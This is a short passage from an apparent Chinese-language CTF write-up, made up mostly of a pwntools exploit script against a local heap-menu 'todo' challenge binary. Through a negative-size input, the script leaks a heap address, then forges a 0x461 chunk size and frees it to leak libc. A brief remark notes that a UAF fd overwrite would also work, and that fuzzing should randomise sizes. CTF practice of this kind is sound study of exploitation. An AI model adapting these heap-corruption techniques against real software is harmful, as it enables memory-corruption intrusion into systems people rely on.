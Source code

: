 或者UAF写fd也行

下次记得fuzz对size这方面也要随机些，感觉都束缚为正数了，所以没爆出来

exp
---

```python
from pwn import *
import random
context(os="linux",arch="amd64",log_level="debug")

def randinit(n):
    return random.randint(1, n)

def new(title,length):
    p.sendlineafter(b"> ",str(1))
    p.sendlineafter(b"Title: ",title)
    result=p.recvuntil(b"1. New todo",timeout=0.5)
    if b"Already exists" in result:
        return
    p.sendline(length)
def remove(title):
    p.sendlineafter(b"> ",str(2))
    p.sendlineafter(b"Title: ",title )

def edit(title,content):
    p.sendlineafter(b"> ",str(3))
    p.sendlineafter(b"Title: ",title)
    p.sendlineafter(b"TODO: ",content)

def show(title):
    p.sendlineafter(b"> ",str(4))
    p.sendlineafter(b"Title: ",title)

p=process("./chall")
gdb.attach(p)
pause()
new(str(1),str(-1))
remove(str(1))
new(str(1),str(-1))
show(str(1))  # leak heap
p.recvuntil(b"TODO: ")
heap=u64(p.recvuntil(b"\n",drop=True).ljust(8,b"\x00"))<<12
print("heap leak "+hex(heap))

new(str(2),str(-1))
new(str(3),str(-1))
new(str(4),str(-1))
new(str(5),str(-1))
new(str(6),str(-1))
new(str(7),str(-1))
new(str(8),str(-1))
new(str(9),str(-1))
new(str(10),str(-1))
new(str(11),str(-1))
payload=b"1"*0x10+b"\x00"*8+p64(0x461)

edit(str(1),payload)
remove(str(1))
new(str(1),str(-1))
show(str(2))   # leak libc
p.recvuntil(b"TODO: ")
libc=u64(p.recvuntil(b"\n",drop=True).ljust(8,b"\x00"))-0x203b20
print("libc leak "+hex(libc))
```